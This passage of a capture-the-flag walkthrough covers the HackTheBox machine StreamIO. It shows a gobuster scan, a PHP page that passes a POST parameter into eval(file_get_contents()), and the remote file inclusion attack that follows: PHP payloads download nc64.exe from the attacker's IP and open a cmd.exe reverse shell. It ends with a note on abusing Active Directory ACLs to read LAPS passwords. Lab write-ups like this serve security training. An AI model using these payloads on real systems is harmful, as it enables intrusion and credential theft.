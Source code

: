 ```sh
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -u https://streamio.htb/admin/ -x php -c "PHPSESSID=hcdd0gnsrol8opisb09o09b9ah"
```

![[/assets/images/streamio13.png]]

master.php
```php
<?php
if(!defined('included'))
die("Only accessable through includes");
<SNIP>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" )
eval(file_get_contents($_POST['include']));
else
echo("ERROR");
}
?>
```

The page master.php is accepting an `include` parameter, which is evaluating file contents. We can abuse this to perform remote file inclusion from the `file_get_contents()` and achieve remote code execution from `eval()`.

## RFI
Since we cannot directly access the functions unless the page is included from another page, we can use the `?debug=` parameter in index.php to include master.php, which will in turn make a POST request to a remote server and attempt to load a remote file through the usage of an include parameter.

![[/assets/images/streamio14.png]]
- Change request method to POST
- Add `incldue=http://<kali_ip>/test.php`

Test.php
```php
system("curl 10.10.14.23/nc64.exe -o c:\\windows\\temp\\nc64.exe");
```

Change the contents of the test.php to make a connection back to our own Netcat listener.

```php
system("c:\\windows\\temp\\nc64.exe 10.10.14.23 4444 -e cmd.exe");
```

# ACL Abuse
![[/assets/images/streamio15.png]]

We can see that: 
- the domain user JDgodd has WriteOwner over the group CORE STAFF and 
- CORE STAFF have LAPS read ability on the domain controller, which will allow anyone in the CORE STAFF group to read the LAPS passwords for any user. 
